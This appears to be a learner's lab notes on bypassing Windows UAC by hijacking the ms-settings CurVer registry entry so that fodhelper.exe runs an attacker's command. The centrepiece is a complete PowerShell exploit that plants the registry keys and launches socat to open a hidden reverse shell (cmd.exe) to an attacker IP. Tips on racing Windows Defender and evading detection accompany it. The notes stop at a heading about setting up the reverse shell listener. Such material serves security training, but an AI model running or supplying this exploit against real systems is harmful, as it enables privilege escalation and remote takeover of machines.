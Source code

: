 
<u>Registry Editor BEFORE the script</u>:

![](/assets/img/Pasted image 20230120012007.png)

	- This registry key doesn't exist before.

<u>The Exploit</u>:

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force

Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force;Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

	- Notice the last line has ';' in between TWO commands.
	- You have to do a Timing attack as well since Windows Defender will erase the CurVer entry that has a malicious value if you dont!

**NOTE**: YOU HAVE TO CREATE A POWERSHELL INSTANCE FROM CMD.EXE BACKDOOR since `New-Item`, `Set-ItemProperty`, and `StartProcess` cmdlets are only applicable in Powershell.

- This exploit creates a new progID with the name `.pwn` and associates our payload to the command used when opening such files.
- It then points the `CurVer` entry of `ms-settings` to our `.pwn` progID.

		- Note that "CurVer" entry under "ms-settings" progID is also created by the attacker.
		- How do I know if fodhelper responds to created "CurVer" entry? I guess as long as it is under the "ms-settings" progID?
		- Remember that even the "ms-settings" progID is created by the attacker.

- When `fodhelper` tries opening an `ms-settings` program, it will instead be pointed to the `.pwn` progID and use its associated command.
- This technique is more likely to `evade Windows Defender` since we have more liberty on where to put our payload, as the name of the `progID` that holds our payload is `entirely arbitrary`.

		- Possible Thought Process of the attacker:
		- What else does "fodhelper.exe" depends on? In this case, the current version and its older versions.
		- Assuming there are multiple versions of "fodhelper.exe", which version does exactly get executed?
		- Where can you find the information about the actual binary of the version of fodhelper.exe that get executed? Is it is registry editor or is it somewhere else?
		- If it is in registry editor, which registry key exactly holds it? Are there variables in the key that holds the path to the binary of the version of fodhelper that gets executed?
		- Given the permissions and privileges that the acquired shell we have, can we poison this specific variable that holds the path to the binary that gets executed by the system when running fodhelper?


##### Creating a reverse shell on the AttackBox:
